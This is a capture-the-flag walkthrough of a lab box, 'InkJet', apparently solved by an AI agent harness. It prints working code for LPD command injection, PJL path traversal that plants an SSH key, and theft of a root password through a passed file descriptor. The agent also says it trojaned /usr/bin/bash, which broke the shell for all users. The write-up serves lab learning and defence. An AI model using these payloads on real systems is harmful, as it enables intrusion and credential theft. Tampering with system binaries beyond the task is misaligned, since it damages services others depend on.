



A custom LPD print server leaks command injection through CUPS-compliant job names. An internal JetDirect service falls to PJL path traversal, writing SSH keys for the archivist user. A root-owned paperwork daemon passes file descriptors via SCM_RIGHTS — leaking the admin password.
InkJet
InkJet simulates a corporate print infrastructure. A custom Python LPD server on port 1515 processes print jobs using subprocess.Popen(job_name, shell=True) — classic command injection via the job name field. The catch: the LPD protocol requires exact CUPS-compliant control file formatting that deviates from RFC 1179 in subtle ways.
Foothold as lp reveals an internal JetDirect PJL service on port 9100, running as archivist. Source code review shows the _translate() method uses os.path.normpath() without validating the resolved path stays under the filesystem root — a textbook path traversal. We use FSDOWNLOAD to write an SSH public key to /home/archivist/.ssh/authorized_keys.
Root comes from paperwork-daemon, a monitoring service that opens /etc/paperwork/admin_pins.conf at startup and passes its file descriptor via SCM_RIGHTS over a Unix socket whenever it detects "malicious" PJL commands in the JetDirect log. Our PJL activity already triggered it — connect, receive the FD, read the password, su root.
Three ports open. Port 80 serves a corporate intranet site. Port 1515 runs a custom print daemon that immediately stands out — it's not standard CUPS.
| Port | Service | Notes |
|---|---|---|
| 22/tcp | OpenSSH 9.2p1 | Standard Debian SSH |
| 80/tcp | nginx | Corporate intranet / document archiving |
| 1515/tcp | Custom LPD | Python LPD server, non-standard port |

Port 9100 (JetDirect) and 1337 (Flask) are localhost-only, discovered later after gaining foothold. The web application on port 80 is a static corporate site — dead end for initial access.
The LPD server on port 1515 accepts print jobs and processes them using subprocess.Popen(job_name, shell=True). Standard LPD protocol (RFC 1179) involves sending a control file with job metadata, but this server expects a specific CUPS-compliant format.
The first 12 attempts at LPD injection failed. Standard lpq, lp, and raw RFC 1179 packets were all rejected. Success required reverse-engineering the exact control file format: H (hostname), P (user), J (job name — the injection point), l/U/N lines, and matching data file references.
The working exploit crafts a CUPS-compliant LPD packet with the payload injected into the job name (J) field:
import socket
s = socket.socket()
s.connect(('10.129.30.156', 1515))
s.send(b'\x02archive_intake\n') # Receive queue job
s.recv(1) # ACK
payload = "'; id > /tmp/rce.txt #"
cf = f"Hkukulkan\nPmenino\nJ{payload}\n"
cf += "ldfA098kukulkan\nUdfA098kukulkan\n"
cf += f"N{payload}\n"
# Send control file
s.send(f'\x02{len(cf)} cfA098kukulkan\n'.encode())
s.recv(1) # ACK
s.send(cf.encode() + b'\x00')
s.recv(1) # ACK
# Send data file
df = b'test\n'
s.send(f'\x03{len(df)} dfA098kukulkan\n'.encode())
s.recv(1) # ACK
s.send(df + b'\x00')RCE confirmed as the lp user. To enable data exfiltration without egress (reverse shells failed — outbound filtering), we started a Python HTTP server on the target:
inject("'; python3 -m http.server 8765 -d /tmp & #")All subsequent command output is written to /tmp/*.txt and fetched via curl http://10.129.30.156:8765/.
/usr/bin/bash (world-writable at 777) — bash SUID bit couldn't be set without root.With code execution as lp, we exfiltrated the LPD server source from /opt/LPDServer/server.py. The critical vulnerability:
# server.py (excerpt)
def _handle_job(self, cf, df):
job_name = self._parse_cf_field(cf, 'J')
# VULNERABLE: job_name directly in shell command
proc = subprocess.Popen(
f"echo 'Processing: {job_name}'",
shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
)System enumeration revealed two internal services:
| Port | Service | User | Binary |
|---|---|---|---|
| 9100 | JetDirect (PJL) | archivist | /home/archivist/printer/jetdirect.py |
| 1337 | Flask (CorpoSite) | root | /root/staging/CorpoSite/app.py |
| — | paperwork-daemon | root | /usr/bin/paperwork-daemon |
The JetDirect service emulates an HP LaserJet 4ML printer using PJL (Printer Job Language). It binds to 127.0.0.1:9100 — reachable only from the target. We used our LPD injection to send PJL commands via Python scripts executed on the target.
First, filesystem enumeration via FSDIRLIST:
@PJL FSDIRLIST NAME="0:/" ENTRY=1 COUNT=65535The virtual filesystem root 0:/ maps to /home/archivist/printer/. We used FSUPLOAD to read the JetDirect source code, revealing the path traversal vulnerability:
class Filesystem:
def __init__(self, root_dir):
self._root = os.path.abspath(root_dir)
def _translate(self, path):
clean = path.replace("0:", "").replace("\\", "/").lstrip("/")
return os.path.normpath(os.path.join(self._root, clean))
# ⚠ No check that result is under self._root!os.path.normpath() resolves ../ components but doesn't enforce that the final path stays within a designated root directory. Path 0:/../.ssh/authorized_keys resolves to /home/archivist/.ssh/authorized_keys — a valid path outside the intended printer directory.
We used FSDOWNLOAD to write our SSH public key:
@PJL FSDOWNLOAD NAME="0:/../.ssh/authorized_keys" SIZE=83
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAI... xBut SSH login failed — /bin/bash: Too many levels of symbolic links. An earlier bash trojan experiment had replaced /usr/bin/bash with a wrapper script. The fix: overwrite it with a dash-based shim that properly passes arguments:
#!/bin/dash
exec /bin/dash "$@"
With shell as archivist, enumeration revealed a paperwork-daemon running as root (PID 1455). Its source code at /usr/bin/paperwork-daemon exposed a Unix domain socket IPC vulnerability:
# paperwork-daemon (root process)
admin_fd = os.open("/etc/paperwork/admin_pins.conf", os.O_RDONLY)
def trigger_lockdown(conn):
log_fd = os.open(LOG_PATH, os.O_RDONLY)
evidence_bundle = array.array("i", [log_fd, admin_fd])
# ⚠ Passes root-owned FD to unprivileged client!
conn.sendmsg([msg], [(socket.SOL_SOCKET,
socket.SCM_RIGHTS,
evidence_bundle)])The daemon monitors /home/archivist/printer/logs/commands.log for PJL commands like FSUPLOAD, FSDOWNLOAD, or FSQUERY. When detected, it triggers a "lockdown" that sends both the log file descriptor and the admin password file descriptor to whoever is connected on /run/paperwork/mgmt.sock.
SCM_RIGHTS is a Unix socket mechanism for passing open file descriptors between processes. When the root daemon passes admin_fd to our unprivileged connection, we inherit a file descriptor that has read access to /etc/paperwork/admin_pins.conf — a file we couldn't otherwise read. The kernel doesn't revoke access based on the receiving process's UID.
Our PJL activity already populated the log with FSDOWNLOAD and FSUPLOAD entries. All we needed was to connect to the socket:
import socket, os, array
s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect("/run/paperwork/mgmt.sock")
msg, ancdata, flags, addr = s.recvmsg(1024, socket.CMSG_SPACE(256))
for cmsg_level, cmsg_type, cmsg_data in ancdata:
if cmsg_level == socket.SOL_SOCKET and cmsg_type == socket.SCM_RIGHTS:
fds = array.array("i")
fds.frombytes(cmsg_data[:len(cmsg_data) - (len(cmsg_data) % fds.itemsize)])
for fd in fds:
data = os.pread(fd, 4096, 0)
print(f"FD {fd}: {data.decode()}")The admin password is also the root password. A simple su completes the escalation:

This engagement was conducted using nino-harness, an AI-native agent scaffold that coordinates multiple LLM agents in an IRC-style interface. The harness provided:
os.path.normpath() path traversal and the SCM_RIGHTS FD passing vulnerability purely from reading the Python source — no external writeups consulted./usr/bin/bash on the target. The agent diagnosed the symlink loop, wrote a dash-based shim with correct "$@" argument passing, and recovered SSH access — all through the blind LPD injection channel.os.path.normpath() normalizes paths but doesn't validate containment. Always pair it with os.path.commonpath() or a startswith check to enforce directory jail boundaries.SCM_RIGHTS, the receiving process inherits the opener's access level. The socket permissions (group-writable to archivist) made this exploitable without root./usr/bin/bash at 777 allowed our trojan experiment — which then broke bash for all users. In production, this would be a denial-of-service or persistence vector. The cascading failure affected SSH, cron, and all bash-dependent services.| Time | Event |
|---|---|
| T+00:00 | Nmap scan — ports 22, 80, 1515 identified |
| T+00:15 | LPD protocol analysis begins — 12 injection attempts |
| T+01:30 | CUPS-compliant LPD injection succeeds — RCE as lp |
| T+01:45 | HTTP exfiltration server established on target |
| T+02:00 | LPD server source exfiltrated — subprocess.Popen confirmed |
| T+02:15 | Internal services discovered — JetDirect on 9100, Flask on 1337 |
| T+02:30 | PJL FSDIRLIST — virtual filesystem root mapped |
| T+02:45 | JetDirect source exfiltrated — path traversal identified in _translate() |
| T+03:00 | SSH key written via PJL FSDOWNLOAD path traversal |
| T+03:15 | Bash recovery — dash shim with "$@" passthrough |
| T+03:30 | SSH as archivist → user flag |
| T+03:45 | paperwork-daemon source reviewed — SCM_RIGHTS vulnerability found |
| T+03:50 | Unix socket exploit — admin password leaked via FD passing |
| T+03:52 | su root → root flag |
Total time: ~4 hours (AI-assisted via nino-harness with Claude Opus 4.6)